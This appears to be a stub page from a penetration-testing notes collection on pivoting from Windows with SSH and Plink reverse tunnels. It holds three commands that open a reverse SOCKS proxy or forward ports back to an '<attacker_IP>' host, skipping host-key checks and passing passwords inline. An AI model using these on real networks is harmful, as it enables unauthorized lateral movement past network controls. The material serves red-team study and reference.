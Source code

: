 # SSH

## 01 - SSH

TODO: Fill this info and refer to the links below

### 1.1 - Scenarios

#### 1.1.1 - Reverse Tunneling SOCKS Proxy

```
C:\> ssh -o StrictHostKeyChecking=no -N -R <SOCKS_PORT> <username>@<attacker_IP>
```

## 02 - Plink

### 2.1 - Usage

```
C:\> cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

- Note: You can do the full path if you wish

```
C:\> c:\windows\system32\cmd.exe /c echo y | plink.exe -ssh -l <username> -pw <password> -R <attacker_IP>:<local_PORT>:<bind_IP>:<bind_PORT> <attacker_IP> -P <PORT>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x06 - Pivoting and Lateral Movement/Pivoting/Linux/Port Forwarding/SSH/Metasploit/Metasploit|Metasploit]]

- [TrustedSec: The SOCKS We Have at Home](https://trustedsec.com/blog/the-socks-we-have-at-home)

- [NetSPI: How to Access RDP Over a Reverse SSH Tunnel](https://www.netspi.com/blog/technical/technical-vulnerability-management/how-to-access-rdp-over-a-reverse-ssh-tunnel/)

- [SlayerLabs: Tunneling Quick Guide](https://posts.slayerlabs.com/tunneling-quick-guide/)

- [Catharsis Network Pivoting and Tunneling Guide](https://catharsis.net.au/blog/network-pivoting-and-tunneling-guide/)
